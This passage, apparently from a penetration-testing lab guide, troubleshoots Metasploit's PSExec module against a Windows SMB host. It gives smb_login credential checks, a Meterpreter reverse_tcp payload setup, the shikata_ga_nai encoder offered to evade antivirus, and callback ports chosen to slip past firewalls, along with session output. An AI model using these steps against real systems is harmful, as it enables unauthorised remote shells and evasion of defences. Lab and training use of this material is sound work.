 
### **❌ Problem 2: PSExec Module Fails to Execute**
**What You See:**
```bash
[*] 10.0.16.162:445 - Connecting to the server...
[*] 10.0.16.162:445 - Authenticating to 10.0.16.162:445 as user 'Administrator'...
[-] 10.0.16.162:445 - Exploit failed: Login Incorrect
```

**How to Fix:**
```bash
# Step 1: Verify credentials are correct
use auxiliary/scanner/smb/smb_login
set RHOSTS target_ip
set SMBUser Administrator
set SMBPass suspected_password
exploit
# Confirm credentials work before psexec

# Step 2: Check user has administrative privileges
# Look for "Administrator" tag in smb_login output
# Example: [*] Success: '.\administrator:password' Administrator

# Step 3: Try different payload options
set payload windows/meterpreter/reverse_tcp
set LHOST your_local_ip
set LPORT 4444

# Step 4: Check for case sensitivity
set SMBUser administrator  # Try lowercase
set SMBUser ADMINISTRATOR  # Try uppercase
```

**Solutions:**
- Always verify credentials with smb_login before attempting psexec
- Ensure user account has administrative privileges (look for Administrator tag)
- Check LHOST setting points to correct attacking machine IP
- Consider case sensitivity in usernames and passwords

---

### **❌ Problem 3: Meterpreter Session Drops Immediately**
**What You See:**
```bash
[*] Meterpreter session 1 opened (10.10.31.2:4444 -> 10.0.16.162:49747)
[*] Session 1 closed.
```

**How to Fix:**
```bash
# Step 1: Try different payload encoders
set encoder x86/shikata_ga_nai
# Help avoid antivirus detection

# Step 2: Use different connection ports
set LPORT 443
set LPORT 53
set LPORT 8080
# Try ports that may bypass firewalls

# Step 3: Check session handling
sessions -l
sessions -i 1
# Verify and interact with available sessions

# Step 4: Try alternative payloads
```